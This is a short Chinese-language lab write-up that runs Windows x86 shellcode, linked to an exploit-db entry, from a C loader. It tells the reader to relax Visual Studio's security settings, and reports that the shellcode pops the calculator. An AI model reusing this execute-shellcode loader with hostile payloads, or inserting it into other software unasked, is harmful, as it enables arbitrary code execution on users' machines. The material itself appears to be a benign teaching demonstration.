 # 一 [链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行
```
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
	int (*func)();
	func = (int(*)()) code;
	(int)(*func)();
}
```
## 实验步骤：
1. VS2019中运行如上代码。文件类型需要为.c文件，同时对VS编译器项目属性中相关安全设置进行修改
![](img/sz.PNG)
2. 执行.c代码文件，计算器成功弹出